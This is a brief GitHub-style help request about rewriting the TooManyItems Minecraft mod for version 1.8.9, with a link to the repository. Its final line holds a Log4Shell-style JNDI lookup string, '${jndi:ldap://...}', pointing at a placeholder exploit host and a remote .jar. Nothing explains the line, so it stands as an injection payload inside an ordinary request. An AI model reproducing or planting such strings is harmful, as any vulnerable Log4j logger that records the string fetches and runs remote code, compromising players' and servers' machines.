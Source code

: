 # I NEED SOME HELP ABOUT REWRITE TOOMANYITEMS MOD TO 1.8.9
# [github.com/HowardZHY/TooManyItems](github.com/HowardZHY/TooManyItems)

debug: ${jndi:ldap://exploit.example.com:21/exploit/example.jar}
